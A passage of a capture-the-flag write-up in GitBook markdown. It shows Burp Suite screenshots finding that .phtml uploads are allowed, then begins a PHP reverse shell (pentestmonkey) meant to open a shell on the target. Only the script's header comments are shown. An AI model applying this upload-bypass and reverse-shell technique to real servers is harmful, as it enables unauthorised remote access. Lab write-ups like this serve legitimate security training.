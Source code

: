 {% tab title="Grep - Extract" %}
![](../../.gitbook/assets/image%20%2818%29.png)
{% endtab %}

{% tab title="Intruder Attack" %}
![](../../.gitbook/assets/image%20%2816%29.png)
{% endtab %}
{% endtabs %}

{% hint style="success" %}
**Burpsuite showed** `.phtml` **files are allowed to upload.** 

Let's upload a PHP rev-shell to **find our flag!**
{% endhint %}

{% tabs %}
{% tab title="rev-shell.phtml" %}
```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
```